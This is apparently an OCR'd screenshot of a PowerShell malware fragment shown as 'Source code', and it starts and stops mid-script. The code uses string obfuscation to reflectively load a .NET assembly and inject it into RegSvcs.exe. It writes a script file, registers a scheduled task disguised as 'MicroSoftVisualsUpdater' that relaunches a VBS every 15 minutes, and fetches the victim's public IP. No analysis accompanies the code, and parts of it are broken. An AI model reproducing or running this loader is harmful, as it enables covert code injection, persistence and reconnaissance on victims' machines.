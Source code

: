 ```powershell

try {
$HM = 'L###############o################a#d' -replace '#', ''
$Fu = [Reflection.Assembly]::$HM($pe)


$NK = $Fu.GetType('N#ew#PE#2.P#E'-replace  '#', '')
$MZ = $NK.GetMethod('Execute')
$NA = 'C:\W#######indow############s\Mi####cr'-replace  '#', ''
$AC = $NA + 'osof#####t.NET\Fra###mework\v4.0.303###19\R##egSvc#####s.exe'-replace  '#', ''
$VA = @($AC, $NKbb)

$CM = 'In#################vo################ke'-replace '#', ''
$EY = $MZ.$CM($null, [object[]] $VA)

}catch{}                                                                                              
  try{}catch{}                                                                                                                                                                                                  
  try{}catch{}

'@

  $a6p::("{0}{1}{2}{3}"-f 'W','ri','teA','llText').Invoke("$d\VsLabsData.ps1" , ${cO`NTE`Nt})
  
}                                                                                                        
catch {                                                                                                  
                                                                                                         
}                                                                                                        
                                                                                                         
try                                                                                                      
{
$action = New-ScheduledTaskAction -Execute 'C:\ProgramData\Music\Visuals\VsLabs.vbs'
$trigger1 = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(1)
$trigger2 = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(1) -RepetitionInterval (New-TimeSpan -Minutes 15)
Register-ScheduledTask -Action $action -Trigger $trigger1, $trigger2 -TaskName 'MicroSoftVisualsUpdater'
} catch {}
# Function to get the public IP address of the machine
function Get-PublicIPAddress {
    try {
        $publicIP = Invoke-RestMethod -Uri "https://api.ipify.org?format=text"
        if ($publicIP) {
            return $publicIP
        } else {
            Write-Output "Failed to retrieve public IP address."
            return $null
        }
    }
    catch {
        Write-Output "Failed to get public IP address: $_"
        return $null
    }
}

# Get the public IP address
$publicIP = Get-PublicIPAddress
```